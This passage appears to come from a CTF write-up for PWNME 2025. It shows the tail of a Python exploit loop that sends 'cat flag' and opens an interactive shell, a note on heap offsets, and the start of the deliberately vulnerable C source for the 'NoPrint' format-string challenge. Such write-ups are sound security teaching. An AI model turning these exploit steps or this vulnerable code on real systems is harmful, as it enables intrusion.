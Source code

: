 ```python
                ]
            )
        )

        p.sendline(b'cat flag')
    except EOFError:
        p.close()
        continue
    else:
        if b'PWNME' not in p.recvline():
            p.close()
            continue
        else:
            p.interactive()
            exit(0)
```

Note: On the remote/docker, the sizeof stdout buffer is 0x1000 so the address of notes[1] is `heap+0x16c0`. If you run on local, the address is different (my local is `heap+0xac0`)

# NoPrint

[Attachment](/assets/PWNME2025/noprint.zip)


Boring `foramt string` challenge again @@:

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>


#define BUF_SIZE 0x100

void init(char *argv[], char **envp) {
  for (int i = 0; argv[i]; i++)
    argv[i] = NULL;
  for (int i = 0; envp[i]; i++)
    envp[i] = NULL;

  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
}

void main(int argc, char *argv[], char **envp) {
  FILE *stream;
  char *buf;

  puts("Hello from the void");

  init(argv, envp);

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);

  stream = fopen("/dev/null", "a");

  buf = malloc(BUF_SIZE);

  while (1) {
    buf[read(STDIN_FILENO, buf, BUF_SIZE) - 1] = '\0';
```